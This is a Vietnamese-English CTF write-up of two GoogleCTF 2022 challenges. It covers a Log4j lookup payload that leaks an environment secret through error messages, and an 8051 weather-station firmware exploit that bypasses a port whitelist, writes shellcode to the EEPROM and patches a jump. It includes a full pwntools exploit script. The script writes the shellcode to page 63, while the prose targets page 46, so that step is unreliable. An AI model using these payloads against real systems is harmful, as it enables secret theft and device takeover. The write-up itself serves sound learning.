

Cuồi tuần vui vẻ cùng Sarmat and friends, đây là writeup vài bài GoogleCTF 2022

Giải vừa rồi thì mảng chính là pwnable của mình không được suôn sẻ cho lắm, có 3 câu, 1 câu pwn browser thì mình không có kinh nghiệm, 1 câu là crypto trá hình nhưng mình cắm đầu đến hết giờ luôn, chưa kịp coi câu còn lại...


Nhưng dù sao thì mình cũng đã học được thêm về hardware, thanks GoogleCTF for making some interesting Web and Hardware challenges, and thanks @gk71ruben for help me learning hardware hacking & stuffs 😊

## Log4j

A good day to tempering with some web challenge... especially the famous log4j, i learning a thing or two 🤓

Xem qua file App.java, ta thấy rằng flag được lưu trong biến môi trường.

```java
String flag = System.getenv("FLAG");
```

Ứng dụng java này sử dụng thư viện log4j để lưu lại câu lệnh người dùng nhập vào qua dòng lệnh.
```java
LOGGER.info(“msg: {}”, args);
```

Version log4j được cung cấp trong source sử dụng phiên bản mới nhất, do đó ta sẽ không exploit qua JNDI protocol như những phiên bản cũ.

Mục tiêu của author hướng tới rất rõ ràng, người chơi phải nhập vào 1 chuỗi input không hợp lệ để logger throw exception.

Ở đây để server throw được exception thì ta cần phải tìm những trường hợp nào gây ra lỗi và trả về thông tin mà ta cần leak.

Đọc tài liệu về log4j ở https://logging.apache.org/log4j/2.x/manual/lookups.html mình tìm cách để lấy được flag ở biến môi trường thông qua Environment Lookup:
```
${env:flag}
``` 

Nhưng làm thế nào để throw exception? Yep, it's Java lookup. Java lookup bắt đầu bằng prefix `java:` và nhận các thông tin về các biến môi trường.

Thử với trường hợp input hợp lệ `${java:os}` output trả về: `The command should start with a /.`

Thử với trường hợp input không hợp lệ `${java: Fan anh Phan 200 nam}` output trả về:

`main ERROR Resolver failed to lookup java:FananhPhan200nam java.lang.IllegalArgumentException: FananhPhan200nam at ...`


Hmmm, chuỗi string trả về bao gồm thông tin class được lookup? Susge? Vậy với `${java:${java:os}}` thì sao?

`main ERROR Resolver failed to lookup java:Linux 5.10.107+ unknown, architecture: amd64-64 java.lang.IllegalArgumentException: Linux 5.10.107+ unknown`

Thông tin về key os được retrieve và chúng ta đã leak thành công version của hệ điều hành chạy server.

Payload lấy flag

`${java:underthehood${env:flag}khongduocthikut}`

Và...
```
main ERROR Resolver failed to lookup java:underthehoodCTF{d95528534d14dc6eb6aeb81c994ce8bd}khongduocthikut java.lang.IllegalArgumentException
```

## Weather

Chương trình cho ta source code của firmware, docs về các con chip chạy trên hardware, cung cấp hardware device remote để ta connect đến. Đầu tiên thì ta xem qua docs được cung cấp để biết mình đang làm việc với cái khỉ gì.



Nếu chưa rõ cái sơ đồ thiết kế mạch trên làm gì, bạn có thể đọc thêm về [i2c communication protocol](https://www.circuitbasics.com/basics-of-the-i2c-communication-protocol/). Tóm gọn lại các thiết bị như light sensor, temperature sensor array, humidity sensor, barometric pressure sensor được xem như các Slave, còn chip CTF-8051 ở đây được xem như là master. CTF-55930D ở đây cũng được xem như là một Slave, nó đóng vai trò như là bộ nhớ (lưu trữ firmware, data, cache,...), còn CTF-8051 đóng vai trò như là CPU giúp firmware xử lý các command được gửi đến từ user. Tạm thời ở đây ta hiểu là các request, command được ta gửi lên server sẽ được xử lý bởi CTF-8051, sau đó port được yêu cầu sẽ được gửi đến tất cả các Slave, Slave nào mà có port được request available thì sẽ return về cho Master.

### Vulnerability

Sau thiết kế mạch thì check qua code để xem firmware xử lý những request của user như thế nào
```c
#include <stdint.h>
#include <stdbool.h>

#ifndef NULL
#define NULL ((void*)0)
#endif

// Secret ROM controller.
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;

// Serial controller.
__sfr __at(0xf2) SERIAL_OUT_DATA;
__sfr __at(0xf3) SERIAL_OUT_READY;
__sfr __at(0xfa) SERIAL_IN_DATA;
__sfr __at(0xfb) SERIAL_IN_READY;

// I2C DMA controller.
__sfr __at(0xe1) I2C_STATUS;
__sfr __at(0xe2) I2C_BUFFER_XRAM_LOW;
__sfr __at(0xe3) I2C_BUFFER_XRAM_HIGH;
__sfr __at(0xe4) I2C_BUFFER_SIZE;
__sfr __at(0xe6) I2C_ADDRESS;  // 7-bit address
__sfr __at(0xe7) I2C_READ_WRITE;

// Power controller.
__sfr __at(0xff) POWEROFF;
__sfr __at(0xfe) POWERSAVE;

const char *ALLOWED_I2C[] = {
  "101",  // Thermometers (4x).
  "108",  // Atmospheric pressure sensor.
  "110",  // Light sensor A.
  "111",  // Light sensor B.
  "119",  // Humidity sensor.
  NULL
};

int8_t i2c_write(int8_t port, uint8_t req_len, __xdata uint8_t *buf) {
  while (I2C_STATUS == 1) {
    POWERSAVE = 1;  // Enter power save mode for a few milliseconds.
  }

  I2C_BUFFER_XRAM_LOW = (uint8_t)(uint16_t)buf;
  I2C_BUFFER_XRAM_HIGH = (uint8_t)((uint16_t)buf >> 8);
  I2C_BUFFER_SIZE = req_len;
  I2C_ADDRESS = port;

  I2C_READ_WRITE = 0;  // Start write.

  int8_t status;
  while ((status = I2C_STATUS) == 1) {
    POWERSAVE = 1;  // Enter power save mode for a few milliseconds.
  }

  return status;
}

int8_t i2c_read(int8_t port, uint8_t req_len, __xdata uint8_t *buf) {
  while (I2C_STATUS == 1) {
    POWERSAVE = 1;  // Enter power save mode for a few milliseconds.
  }

  I2C_BUFFER_XRAM_LOW = (uint8_t)(uint16_t)buf;
  I2C_BUFFER_XRAM_HIGH = (uint8_t)((uint16_t)buf >> 8);
  I2C_BUFFER_SIZE = req_len;
  I2C_ADDRESS = port;

  I2C_READ_WRITE = 1;  // Start read.

  int8_t status;
  while ((status = I2C_STATUS) == 1) {
    POWERSAVE = 1;  // Enter power save mode for a few milliseconds.
  }

  return status;
}

const char *i2c_status_to_error(int8_t err) {
  switch (err) {
    case 0: return "i2c status: transaction completed / ready\n";
    case 1: return "i2c status: busy\n";
    case 2: return "i2c status: error - device not found\n";
    case 3: return "i2c status: error - device misbehaved\n";
  }

  return "i2c status: unknown error\n";
}

void serial_print(const char *s) {
  while (*s) {
    while (!SERIAL_OUT_READY) {
      // Busy wait...
    }

    SERIAL_OUT_DATA = *s++;
  }
}

char serial_read_char(void) {
  while (1) {
    if (SERIAL_IN_READY) {
      return (char)SERIAL_IN_DATA;
    }

    POWERSAVE = 1;  // Enter power save mode for a few milliseconds.
  }
}

struct tokenizer_st {
  char *ptr;
  int replaced;
};

void tokenizer_init(struct tokenizer_st *t, char *str) {
  t->ptr = str;
  t->replaced = 0x7fff;
}

char *tokenizer_next(struct tokenizer_st *t) {
  if (t->replaced != 0x7fff) {
    *t->ptr = (char)t->replaced;
  }

  while (*t->ptr == ' ') {
    t->ptr++;
  }

  if (*t->ptr == '\0') {
    return NULL;
  }

  char *token_start = t->ptr;
  for (;;) {
    char ch = *t->ptr;
    if (ch != ' ' && ch != '\0') {
      t->ptr++;
      continue;
    }

    t->replaced = *t->ptr;
    *t->ptr = '\0';
    return token_start;
  }
}

uint8_t str_to_uint8(const char *s) {
  uint8_t v = 0;
  while (*s) {
    uint8_t digit = *s++ - '0';
    if (digit >= 10) {
      return 0;
    }
    v = v * 10 + digit;
  }
  return v;
}

void uint8_to_str(char *buf, uint8_t v) {
  if (v >= 100) {
    *buf++ = '0' + v / 100;
  }

  if (v >= 10) {
    *buf++ = '0' + (v / 10) % 10;
  }

  *buf++ = '0' + v % 10;
  *buf = '\0';
}

bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) {
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}

int8_t port_to_int8(char *port) {
  if (!is_port_allowed(port)) {
    return -1;
  }

  return (int8_t)str_to_uint8(port);
}

#define CMD_BUF_SZ 384
#define I2C_BUF_SZ 128
int main(void) {
  serial_print("Weather Station\n");

  static __xdata char cmd[CMD_BUF_SZ];
  static __xdata uint8_t i2c_buf[I2C_BUF_SZ];

  while (true) {
    serial_print("? ");

    int i;
    for (i = 0; i < CMD_BUF_SZ; i++) {
      char ch = serial_read_char();
      if (ch == '\n') {
        cmd[i] = '\0';
        break;
      }
      cmd[i] = ch;
    }

    if (i == CMD_BUF_SZ) {
      serial_print("-err: command too long, rejected\n");
      continue;
    }

    struct tokenizer_st t;
    tokenizer_init(&t, cmd);

    char *p = tokenizer_next(&t);
    if (p == NULL) {
      serial_print("-err: command format incorrect\n");
      continue;
    }

    bool write;
    if (*p == 'r') {
      write = false;
    } else if (*p == 'w') {
      write = true;
    } else {
      serial_print("-err: unknown command\n");
      continue;
    }

    p = tokenizer_next(&t);
    if (p == NULL) {
      serial_print("-err: command format incorrect\n");
      continue;
    }

    int8_t port = port_to_int8(p);
    if (port == -1) {
      serial_print("-err: port invalid or not allowed\n");
      continue;
    }

    p = tokenizer_next(&t);
    if (p == NULL) {
      serial_print("-err: command format incorrect\n");
      continue;
    }

    uint8_t req_len = str_to_uint8(p);
    if (req_len == 0 || req_len > I2C_BUF_SZ) {
      serial_print("-err: I2C request length incorrect\n");
      continue;
    }

    if (write) {
      for (uint8_t i = 0; i < req_len; i++) {
        p = tokenizer_next(&t);
        if (p == NULL) {
          break;
        }

        i2c_buf[i] = str_to_uint8(p);
      }

      int8_t ret = i2c_write(port, req_len, i2c_buf);
      serial_print(i2c_status_to_error(ret));
    } else {
      int8_t ret = i2c_read(port, req_len, i2c_buf);
      serial_print(i2c_status_to_error(ret));

      for (uint8_t i = 0; i < req_len; i++) {
        char num[4];
        uint8_to_str(num, i2c_buf[i]);
        serial_print(num);

        if ((i + 1) % 16 == 0 && i +1 != req_len) {
          serial_print("\n");
        } else {
          serial_print(" ");
        }
      }

      serial_print("\n-end\n");
    }
  }

  // Should never reach this place.
}
```

Trên đây là toàn bộ source code của firmware, ta có thể thấy chương trình cho read và write ở các port, nhưng địa chỉ các port bị filter nên chỉ có thể tương tác với các port sau:
```
  "101",  // Thermometers (4x).
  "108",  // Atmospheric pressure sensor.
  "110",  // Light sensor A.
  "111",  // Light sensor B.
  "119",  // Humidity sensor.
```

#### Is port allowed? Are u sure it is allowed?

Tuy nhìn sơ thì có vẻ không có gì để exploit, nhưng nếu kiểm tra kĩ hàm is_port_allowed và hàm str_to_uint8 thì sẽ thấy hai hàm này có vấn đề, đầu tiên là is_port_allowed:
```c
bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) {
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}
```

#### Bruteforce để tìm EEPROM

Hàm check port nhưng vòng lặp while chỉ chạy khi thỏa cả 2 điều kiện là cả kí tự thuộc chuỗi port nằm trong whitelist lẫn kí tự thuộc chuỗi port do user nhập vào khác 0 (*pa && *pb), vậy ví dụ nếu ta nhập vào "10100000" thì port này vẫn valid bởi vì khi check hết chuỗi trong whitelist là "101" thì vòng lặp sẽ ngừng kiểm tra điều kiện.

Hàm str_to_uint8 thì như cái tên, convert port string thành unsigned char, vì port string thì nhập vào lớn, mà chỉ convert thành unsigned char, nên sẽ xảy ra lỗi type cast. Ví dụ khi nhập vào một port string là "111104" thì hex của nó sẽ là 0x1b200, nhưng vì bị type cast thành unsigned char nên sẽ là 0x00, như vậy ta có thể bruteforce hết 128 port của i2c:
```python
def eeprom(a = 111):
    res = 0
    for i in range(10000):
        cnt = len(str(i))
        tmp = a * (10**cnt) + i
        if (tmp & 0xff == 0 and len(str(tmp)) >= 6):
            res = tmp
            break
    for i in range(256):
        port = res+i
        io.sendlineafter(b'? ', b'r '+str(port).encode('utf-8')+b' 64')
        recv = io.recvuntil(b'-end\n', timeout = 1)
        if (b'error' not in recv and recv != b''):
            print('reading from port ' + str(port & 0xff) + ' ' + recv.decode('utf-8'))
        else:
            print('fail at '+str(port & 0xff))
```

Khi chạy code thì có thể thấy duy nhất ở port 33 (111137 & 0xff) có xuất hiện output hợp lệ ngoài những port đã được whitelist, vậy có thể chắc chắn rằng port này chính là port của Slave EEPROM CTF-55930D.
```
pwn@icbm:~/Desktop/weather$ python3 exp.py 
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
fail at 0
fail at 1
fail at 2
fail at 3
fail at 4
fail at 5
fail at 6
fail at 7
fail at 8
fail at 9
fail at 10
fail at 11
fail at 12
fail at 13
fail at 14
fail at 15
fail at 16
fail at 17
fail at 18
fail at 19
fail at 20
fail at 21
fail at 22
fail at 23
fail at 24
fail at 25
fail at 26
fail at 27
fail at 28
fail at 29
fail at 30
fail at 31
fail at 32
reading from port 33 i2c status: transaction completed / ready
2 0 6 2 4 228 117 129 48 18 8 134 229 130 96 3
2 0 3 121 0 233 68 0 96 27 122 0 144 10 2 120
1 117 160 2 228 147 242 163 8 184 0 2 5 160 217 244
218 242 117 160 255 228 120 255 246 216 253 120 0 232 68 0 
-end

fail at 34
fail at 35
fail at 36
```

### Exploit

#### Đừng lười đọc docs...

```
CTF-55930 EEPROM
This Dual Interface EEPROM allows simultaneous access to data through both the I2C and the SPI interface without page
locking. EEPROMs capacity depends on the exact model:

...

CTF-55930D 32768 bits (organized as 64x64x8)

...

Programming the CTF-55930
Programming this EEPROM is a two-step process. In the first step all bits are re-set to 1. In the second step a
clear-mask is applied to clear selected bits to 0.

...

I2C interface
Reading data from a 64-byte page is done in two steps:
1. Select the page by writing the page index to EEPROM's I2C address.
2. Receive up to 64 bytes by reading from the EEPROM's I2C address.
Programming the EEPROM is done by writing the following packet to the EEPROM's I2C address:
<PageIndex> <4ByteWriteKey> <ClearMask> ... <ClearMask>
The PageIndex selects a 64-byte page to operate on. The WriteKey is a 4 byte unlock key meant to prevent accidental
overwrites. Its value is constant: A5 5A A5 5A. Each ClearMask byte is applied to the consecutive bytes of the page,
starting from byte at index 0. All bits set to 1 in the ClearMask are cleared (set to 0) for the given byte in the
given page on the EEPROM:
byte[i] ← byte[i] AND (NOT clear_mask_byte)
```

Những thông tin ta biết theo như docs đã cung cấp:
- EEPROM ta đang làm việc có size là 4KB, bao gồm 64 page trong đó mỗi page có 64 bytes.
- Các bytes chỉ có thể được reprogram bằng cách clear các bits 1 thành 0, nếu làm ngược lại thì phải reset trên mạch vật lý, nhưng điều đó là không thể vì ta chỉ được phép tương tác từ xa và cũng không tác động được lên mạch thật được host ở server, vì vậy khi chọn page để write program hay shellcode ta nên chọn những page có cả 64 bytes đều là 0xff (vì 0xff ở dạng nhị phân là 11111111, cả 8 bits đều là 1 hết nên có thể clear các bits tùy ý).
- Read data từ một page nào đó được thực hiện trong 2 bước:
    + đầu tiên là write page index vào address của EEPROM.
    + sau đó read 64 bytes từ address đó.
- Reprogram EEPROM được thực hiện bằng cách write packet có syntax như sau đến address của EEPROM:
    + <index của page muốn write> <key bảo mật> <clearmask tại bytes thứ n> ... <clearmask tại bytes thứ m>

#### Small Device C Compiler?

Nếu để ý thì source code sẽ không thể compile bằng gcc như thông thường được vì đây là firmware, well i learned something new 🥳
```
pwn@icbm:~/Desktop/weather$ sdcc firmware.c
pwn@icbm:~/Desktop/weather$ echo $?
0
```

Cũng như source code, ta cần code và compile một chương trình để có thể đọc flag ra, vì trong firmware không hề sử dụng đến 2 macro có liên quan mật thiết đến flag là FLAGROM_ADDR và FLAGROM_DATA, chương trình cũng không có gì phức tạp, chỉ cần copy một phần code từ firmware ra rồi chỉnh sửa chút là được:
```c
#include <stdint.h>
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;
__sfr __at(0xf2) SERIAL_OUT_DATA;
__sfr __at(0xf3) SERIAL_OUT_READY;

int main(void) {
    uint8_t c = 0;
    while (c < 64) {
	FLAGROM_ADDR = c;
        while (!SERIAL_OUT_READY);
        SERIAL_OUT_DATA = FLAGROM_DATA;
	c++;
    }
    return 0;
}
```

Sau khi compile xong thì sdcc cũng cho ra một file có đuôi .lst, file này chứa các byte để represent cho assembly instruction của chương trình sau khi compile:
```arm
...

      000000 7F 00            [12]  141 	mov	r7,#0x00
      000002                        142 00104$:
      000002 BF 40 00         [24]  143 	cjne	r7,#0x40,00126$
      000005                        144 00126$:
      000005 50 0C            [24]  145 	jnc	00106$
                                    146 ;	prog.c:10: FLAGROM_ADDR = c;
      000007 8F EE            [24]  147 	mov	_FLAGROM_ADDR,r7
                                    148 ;	prog.c:11: while (!SERIAL_OUT_READY);
      000009                        149 00101$:
      000009 E5 F3            [12]  150 	mov	a,_SERIAL_OUT_READY
      00000B 60 FC            [24]  151 	jz	00101$
                                    152 ;	prog.c:12: SERIAL_OUT_DATA = FLAGROM_DATA;
      00000D 85 EF F2         [24]  153 	mov	_SERIAL_OUT_DATA,_FLAGROM_DATA
                                    154 ;	prog.c:13: c++;
      000010 0F               [12]  155 	inc	r7
      000011 80 EF            [24]  156 	sjmp	00104$
      000013                        157 00106$:
                                    158 ;	prog.c:15: return 0;
      000013 90 00 00         [24]  159 	mov	dptr,#0x0000
                                    160 ;	prog.c:16: }
      000016 22               [24]  161 	ret
                                    162 	.area CSEG    (CODE)
                                    163 	.area CONST   (CODE)

...
```

#### Shellcode n firmware dumping?

Các byte này chính là shellcode mà ta cần write vào EEPROM của chương trình. Ở đây mình sẽ chọn page 46 để write shellcode vào:
```python
io.recvuntil(b'Weather Station\n')
#portb = eeprom()
portb = 111137 # & 0xff = 33
w(portb, b'46')
shellcode = b'\x7F\x00\xBF\x40\x00\x50\x0C\x8F\xEE\xE5\xF3\x60\xFC\x85\xEF\xF2\x0F\x80\xEF\x90\x00\x00\x22'
wrom(63, shellcode)
```

Vì tại page thứ 46 là vùng cuối của firmware, nghĩa là không hề có instruction nào jmp từ trong firmware đến đó cả, nên ta cần patch các byte trong firmware để thực hiện một instruction long jump đến vị trí đặt shellcode. Để làm được điều này đầu tiên ta cần dump firmware chạy trên server về:
```python
f = open('dump.raw', 'wb')
dump = b''
for i in range(64):
    w(portb, str(i).encode('utf-8'))
    dump+=r(portb, 64)
f.write(dump)
f.close()
```

Sau khi dump firmware về ta compile firmware đã được cung cấp để xem vòng lặp trong hàm main của firmware bắt đầu tại địa chỉ nào trong bộ nhớ, theo thông tin sau thì ta thấy main loop bắt đầu tại địa chỉ 0x457:
```arm
...

                                   1037 ;------------------------------------------------------------
                                   1038 ;	firmware.c:200: int main(void) {
                                   1039 ;	-----------------------------------------
                                   1040 ;	 function main
                                   1041 ;	-----------------------------------------
      00044E                       1042 _main:
                                   1043 ;	firmware.c:201: serial_print("Weather Station\n");
      00044E 90r00rA5         [24] 1044 	mov	dptr,#___str_5
      000451 75 F0 80         [24] 1045 	mov	b,#0x80
      000454 12r00r8D         [24] 1046 	lcall	_serial_print
                                   1047 ;	firmware.c:206: while (true) {
      000457                       1048 00135$:
                                   1049 ;	firmware.c:207: serial_print("? ");
      000457 90r00rB6         [24] 1050 	mov	dptr,#___str_6
      00045A 75 F0 80         [24] 1051 	mov	b,#0x80
      00045D 12r00r8D         [24] 1052 	lcall	_serial_print
                                   1053 ;	firmware.c:210: for (i = 0; i < CMD_BUF_SZ; i++) {
      000460 7E 00            [12] 1054 	mov	r6,#0x00
      000462 7F 00            [12] 1055 	mov	r7,#0x00

...
```

#### It's patching timeeeee!

Vậy ta sẽ tiến hành patch các byte nào đó bắt đầu từ địa chỉ 0x457 thành một instruction long jump đến địa chỉ 0xb80 (vì tại page 46 thì địa chỉ bắt đầu sẽ là 46 * 64 = 0xb80), xem thêm về 8051 instructions [ở đây](https://www.win.tue.nl/~aeb/comp/8051/set8051.html), để làm điều này thì ta sẽ tự viết một hàm check và patch:
```python
def patch(start, end, bytestr):
    dump = open('dump.raw', 'rb').read()
    res = 0
    for offset in range(start, end):
        arr = dump[offset:offset+len(bytestr)]
        notmatch = 0
        for i in range(len(arr)):
            if ((arr[i] & bytestr[i]) != bytestr[i]):
                notmatch = 1
                break
        if notmatch == 0:
            log.info('Patching available at offset '+hex(offset))
            res = offset
            break
    page = offset // 64
    _offset = offset % 64
    pByte = _offset * b'\0' + bytestr
    wrom(page, pByte)
```

#### Lụm flag

Sau khi chạy script exploit:
```
pwn@icbm:~/Desktop/weather$ python3 exp.py 
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
[*] Patching available at offset 0x4c1
[*] Flag: CTF{DoesAnyoneEvenReadFlagsAnymore?}
[*] Closed connection to weather.2022.ctfcompetition.com port 1337
```

Nếu chưa hiểu rõ các idea mình đã trình bày thì bạn có thể tham khảo và debug thử script sau:
```python
from pwn import *

io = remote('weather.2022.ctfcompetition.com', 1337)


def r(port, length):
    io.sendlineafter(b'? ', b'r '+str(port).encode('utf-8')+b' '+str(length).encode('utf-8'))
    io.recvuntil(b'i2c status: ')
    io.recvline()
    data = b''
    cnt = 0
    for i in io.recvuntil(b'\n-end').split()[:-1]:
        cnt+=1
        data+=p8(int(i))
    return data

def w(port, data):
    length = len(data)
    io.sendlineafter(b'? ', b'w '+str(port).encode('utf-8')+b' '+str(length).encode('utf-8')+b' '+data)


def wrom(page, data):
    data = data.ljust(64, b'\x00')
    rdata = b''
    for i in data:
        rdata += p8(0xff & (~i))
    tmp = p8(page)+b'\xa5\x5a\xa5\x5a'+rdata
    payload = b'w 111137 '+str(len(tmp)).encode('utf-8')
    for i in tmp:
        payload += b' ' + str(i).encode('utf-8')
    io.sendlineafter(b'? ', payload)

def patch(start, end, bytestr):
    dump = open('dump.raw', 'rb').read()
    res = 0
    for offset in range(start, end):
        arr = dump[offset:offset+len(bytestr)]
        notmatch = 0
        for i in range(len(arr)):
            if ((arr[i] & bytestr[i]) != bytestr[i]):
                notmatch = 1
                break
        if notmatch == 0:
            log.info('Patching available at offset '+hex(offset))
            res = offset
            break
    page = offset // 64
    _offset = offset % 64
    pByte = _offset * b'\0' + bytestr
    wrom(page, pByte)


def eeprom(a = 111):
    res = 0
    for i in range(10000):
        cnt = len(str(i))
        tmp = a * (10**cnt) + i
        if (tmp & 0xff == 0 and len(str(tmp)) >= 6):
            res = tmp
            break
    for i in range(256):
        port = res+i
        io.sendlineafter(b'? ', b'r '+str(port).encode('utf-8')+b' 64')
        recv = io.recvuntil(b'-end\n', timeout = 1)
        if (b'error' not in recv and recv != b''):
            print('reading from port ' + str(port & 0xff) + ' ' + recv.decode('utf-8'))
        else:
            print('fail at '+str(port & 0xff))


io.recvuntil(b'Weather Station\n')
#portb = eeprom()
portb = 111137 # & 0xff = 33
w(portb, b'46')
shellcode = b'\x7F\x00\xBF\x40\x00\x50\x0C\x8F\xEE\xE5\xF3\x60\xFC\x85\xEF\xF2\x0F\x80\xEF\x90\x00\x00\x22'
wrom(63, shellcode)
w(portb, b'46')

'''
# This code for dumping firmware
f = open('dump.raw', 'wb')
dump = b''
for i in range(64):
    w(portb, str(i).encode('utf-8'))
    dump+=r(portb, 64)
f.write(dump)
f.close()
'''

program = open('dump.raw', 'rb').read()
patch(0x457, 0x6D2, b'\x02\x0b\x80')
io.sendline(b'r 1 1')
io.recvline()
log.info('Flag: '+io.recvline().decode('utf-8'))
```